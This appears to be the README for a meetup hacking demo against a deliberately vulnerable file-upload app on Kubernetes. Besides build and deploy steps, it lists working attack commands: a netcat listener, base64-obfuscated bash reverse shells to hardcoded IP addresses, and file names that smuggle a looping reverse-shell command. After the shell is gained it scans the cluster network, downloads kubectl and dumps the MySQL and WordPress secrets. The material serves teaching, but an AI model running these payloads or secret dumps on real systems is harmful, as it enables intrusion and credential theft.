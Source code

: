 # docker
```bash
docker build -t biltisberger/vuln-fileupload:latest .
docker push biltisberger/vuln-fileupload:latest
docker run -d --name vuln-fileupload -p 8080:8080 biltisberger/vuln-fileupload:latest
```

# k8s
```bash
kubectl apply -f manifests/rbac.yaml 
kubectl apply -f manifests/deployment.yaml 
kubectl apply -f manifests/service.yaml 
kubectl apply -f manifests/ingress.yaml 
```

# Listen for incoming connections
```bash
sudo nc -nvl 9001
```

# Connect to the listener
```bash
echo "bash -c 'bash -i >& /dev/tcp/192.168.178.113/1338 0>&1'" | base64
echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3OC4xMTMvMTMzOCAwPiYxJwo= | base64 -d | bash 2>/dev/null
touch ";while true; do sh -i >& /dev/tcp/128.140.44.16/9001 0>&1; sleep 1; done"

echo ";while true; do sh -i >& /dev/tcp/128.140.44.16/9001 0>&1; sleep 1; done" | base64
touch 'testfile;eval "$(echo dGVzdGZpbGU7IHdoaWxlIHRydWU7IGRvIHNoIC1pID4mIC9kZXYvdGNwLzEyOC4xNDAuNDQuMTYvOTAwMSAwPiYxOyBzbGVlcCAxOyBkb25lCg== | base64 -d)"'

lsof -i :8080

// even better with a loop if the connection dies
google.com;while true; do sh -i >& /dev/tcp/88.198.205.24/9001 0>&1; sleep 1; done
```

# Ok we are on the host
```bash
nmap -sn 10.1.11.0/24 | grep 'Nmap scan report for' | awk '{print $5, $6}'
nmap angular2.bene-default-oi9z17.svc.cluster.local

curl -LO "https://dl.k8s.io/release/$(curl -L -s https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
chmod +x kubectl
mv kubectl /usr/local/bin/.
kubectl auth can-i --list
kubectl get pods
kubectl describe pod mysql-0
kubectl get secret mysql -o jsonpath='{.data}'
kubectl get secret wordpress -o jsonpath='{.data}'

curl https://metrics-server.mogenius.svc.cluster.local:443/apis/metrics.k8s.io/v1beta1/pods --insecure

```

# Links
- [https://hub.docker.com/r/biltisberger/vuln-fileupload](https://hub.docker.com/r/biltisberger/vuln-fileupload)
- [https://github.com/mogenius/meetup-2024-hack](https://github.com/mogenius/meetup-2024-hack)

# Sources
- [https://www.revshells.com/](https://www.revshells.com/)
- [https://www.youtube.com/watch?v=iD_klswHJQs&t=1209s&ab_channel=JohnHammond](https://www.youtube.com/watch?v=iD_klswHJQs&t=1209s&ab_channel=JohnHammond)
- [https://www.youtube.com/watch?v=c7hLUsUE_Ao&t=183s&ab_channel=DanielLowrie](https://www.youtube.com/watch?v=c7hLUsUE_Ao&t=183s&ab_channel=DanielLowrie)
- [XZ-Backdoor](https://thenewstack.io/linux-xz-backdoor-damage-could-be-greater-than-feared/)


"services.K8sUpdateDeploymentRequest.Data: readObjectStart: expect { or n, but found \", error found in #9 byte of ...|{\"data\":\"kind: Depl|..., bigger context ...|{\"data\":\"kind: Deployment\\napiVersion: apps/v1\\nmetadata:\\n|..."


# Developer RBAC-User 
- login as the user create a deployment
